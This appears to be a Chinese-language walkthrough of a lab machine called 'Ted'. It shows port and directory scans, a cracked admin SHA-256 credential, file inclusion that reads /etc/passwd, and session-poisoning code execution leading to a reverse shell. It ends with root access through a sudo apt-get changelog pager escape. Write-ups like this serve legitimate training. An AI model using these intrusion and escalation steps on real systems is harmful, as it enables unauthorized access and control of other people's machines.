


## 信息收集

### 端口扫描
#### 全端口扫描
~~~
┌──(kali㉿kali)-[~/Ted]
└─$ sudo nmap -sT -p- --min-rate 10000 192.168.2.129 -oA nmap/ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 08:18 EDT
Nmap scan report for 192.168.2.129
Host is up (0.00065s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:39:9B:B3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.21 seconds

~~~
#### 默认脚本扫描
~~~
┌──(kali㉿kali)-[~/Ted]
└─$ sudo nmap -sT -sV -sC -p80 192.168.2.129 -oA nmap/sC
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 08:18 EDT
Nmap scan report for 192.168.2.129
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:39:9B:B3 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds

~~~
#### 漏洞脚本扫描
~~~
┌──(kali㉿kali)-[~/Ted]
└─$ sudo nmap -sT --script=vuln -p80 192.168.2.129 -oA nmap/vuln
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 08:19 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.2.129
Host is up (0.00022s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.2.129
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.2.129:80/
|     Form id: username
|     Form action: authenticate.php
|     
|     Path: http://192.168.2.129:80/authenticate.php
|     Form id: username
|_    Form action: authenticate.php
MAC Address: 00:0C:29:39:9B:B3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 366.40 seconds

~~~
#### UDP 端口扫描
~~~
┌──(kali㉿kali)-[~/Ted]
└─$ sudo nmap -sU --top-ports 20 192.168.2.129 -oA nmap/UDP        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 08:20 EDT
Nmap scan report for 192.168.2.129
Host is up (0.00034s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open|filtered snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
MAC Address: 00:0C:29:39:9B:B3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds

~~~

### Web 信息收集

#### 目录爆破
~~~
┌──(kali㉿kali)-[~/Ted]                                                            └─$ sudo gobuster dir -u 'http://192.168.2.129' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                       [sudo] password for kali:                                                          ===============================================================                    Gobuster v3.6                                                                      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                      ===============================================================                    [+] Url:                     http://192.168.2.129                                  [+] Method:                  GET                                                   [+] Threads:                 10                                                    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                         [+] Negative Status codes:   404                                                   [+] User Agent:              gobuster/3.6                                          [+] Timeout:                 10s                                                   ===============================================================                    Starting gobuster in directory enumeration mode                                    ===============================================================                    /server-status        (Status: 403) [Size: 301]                                    Progress: 220560 / 220561 (100.00%)                                                ===============================================================
Finished
===============================================================

~~~

~~~
┌──(kali㉿kali)-[~/Ted]
└─$ sudo gobuster dir -u 'http://192.168.2.129' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,cap
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.129
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,cap,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 292]
/.html                (Status: 403) [Size: 293]
/index.php            (Status: 200) [Size: 669]
/home.php             (Status: 302) [Size: 0] [--> index.html]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/cookie.php           (Status: 302) [Size: 0] [--> index.html]
/authenticate.php     (Status: 302) [Size: 31] [--> index.php]
/.php                 (Status: 403) [Size: 292]
/.html                (Status: 403) [Size: 293]
/server-status        (Status: 403) [Size: 301]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

~~~
访问web界面是一个登录页，查看源码似乎没什么内容

简单测试一些脏sql

似乎可以枚举用户名，并且密码需要hash

只枚举出admin这一个用户

把密码进行base64编码试一下

基本可以确定存在admin这个用户，密码我们爆破一下

爆破了22w条没跑出来，先放着看看其他信息
试了很多种加密包括md5、sha1、sha256、sha512
最后发现sha256加密并全大写的格式才能爆破到(大写，这谁能想到)

凭据admin::8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918
登录成功，看样子可以搜索，试一下脏sql

看起来似乎没有sql注入

再用sqlmap确定一遍

应该是没有sql注入
有没有可能是文件包含呢

wow，查看一下/etc/passwd
~~~/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon:/:/bin/false
pulse:x:117:124:PulseAudio daemon:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon:/var/lib/usbmux:/bin/false
ted:x:1000:1000:Ted:/home/ted:/bin/bash
mysql:x:121:129:MySQL Server:/nonexistent:/bin/false
~~~
发现有ted这个普通用户
只开放了80端口，要想办法利用
靠伪协议拿到源码

查看了一些源码，除/authenticate.php中含有数据库的账号密码外没什么有价值的信息
## 漏洞利用

### Session 会话污染 RCE

cookie.php中提醒我们的session会被储存起来，试一下利用

会把我们上一次输入的user_perf保留起来,尝试注入恶意代码，注意要对特殊字符进行url编码，发送两次发现成功解析

我们写入shellcode
测试一下，有效！

反弹shell！

### Webshell 初始访问

## 权限提升

### sudo apt-get 提权

~~~
┌──(kali㉿kali)-[~/ted]
listening on [any] 443 ...
connect to [192.168.2.130] from (UNKNOWN) [192.168.2.129] 57940
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/var/www/html$ 
~~~
### 查看 sudo 权限
~~~
www-data@ubuntu:/home/ted$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get
~~~
我们拥有apt-get的权限
到GTFObins查询

在切换出的窗口输入!/bin/bash即可提权
~~~
www-data@ubuntu:/home/ted$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get
www-data@ubuntu:/home/ted$ sudo /usr/bin/apt-get changelog apt
sudo /usr/bin/apt-get changelog apt
Get:1 http://changelogs.ubuntu.com apt 1.2.35 Changelog [413 kB]
Fetched 413 kB in 2s (179 kB/s)     
root@ubuntu:/home/ted# whoami                 whoami
whoami
root
root@ubuntu:/home/ted# 
~~~
定妆照

